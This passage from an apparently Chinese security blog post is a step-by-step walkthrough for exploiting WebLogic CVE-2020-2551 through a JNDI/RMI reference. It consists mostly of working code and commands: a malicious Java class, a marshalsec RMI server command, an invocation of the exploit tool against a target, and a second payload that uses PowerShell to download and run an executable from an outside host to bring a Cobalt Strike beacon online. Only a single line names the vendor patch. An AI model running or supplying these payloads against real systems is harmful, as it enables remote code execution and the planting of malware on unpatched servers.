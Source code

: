 这里我已经安装好

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaD87jiatpI5gNTiasDkAA0U5TwT1diaicNbFcTbibYh4x4c1IeiaiajiaQY4yFbw/640?wx_fmt=png)image-20210814225849356

exp.java 代码

```
import java.io.IOException;public class exp { static{  try {   java.lang.Runtime.getRuntime().exec(new String[]{"cmd","/c","calc"});  } catch (IOException e) {   e.printStackTrace();  } } public static void main(String[] args) {   }}
```

image-20210814230308993

java 编译 exp.java

```
javac exp.java -source 1.6 -target 1.6
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaDhXicNS9zVib9S0M0GndHSOp2my1Y29sUxm1GTiaHUfpFJ82VNERQdmbxw/640?wx_fmt=png)image-20210814230430269

接着 python 开启 http 服务, 与 exp.class 在同一文件夹即可

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaDG2jMJgoZXwM40zjM2EY5MR1v7wMLIp44mF5ymoNy0ETrRCdjOpVIRw/640?wx_fmt=png)image-20210814230710705

使用 marshalsec 启动一个 rmi 服务

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.0.108/#exp" 12345
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaDsQibMOoa34rg2Rw0YJ7pbkZAgd366W3e0Lv3ddCzY0uYY0wpX8Sicib8g/640?wx_fmt=png)image-20210814230935474

使用工具 weblogic_CVE_2020_2551.jar，执行 exp

```
java -jar weblogic_CVE_2020_2551.jar 192.168.0.105 7001 rmi://192.168.0.108:12345/exp
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaDBO6lialIXibTViaW9BSSoEyPSnUc23VOQov37iavbrcRCicdY27Mpz213Dg/640?wx_fmt=png)image-20210814231847184

可以看见成功弹出

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaDAgsSxYqVb247ovj7uKsIVPX6ibsyZ0icC4p4ibya4boD1kKWWZxN3kHrg/640?wx_fmt=png)image-20210814231822800

同理，上线 cs 的话，只需改 exp.java 代码即可，后续步骤一样

```
import java.io.IOException;public class exp { static{  try {   java.lang.Runtime.getRuntime().exec(new String[]{"powershell","/c"," (new-object System.Net.WebClient).DownloadFile('http://x.x.x.x/zcc.exe','zcc.exe');start-process zcc.exe"});  } catch (IOException e) {   e.printStackTrace();  } } public static void main(String[] args) {   }}
```

##### 安全防护

使用官方补丁进行修复：https://www.oracle.com/security-alerts/cpujan2020.html

欢迎关注亿人安全！

公众号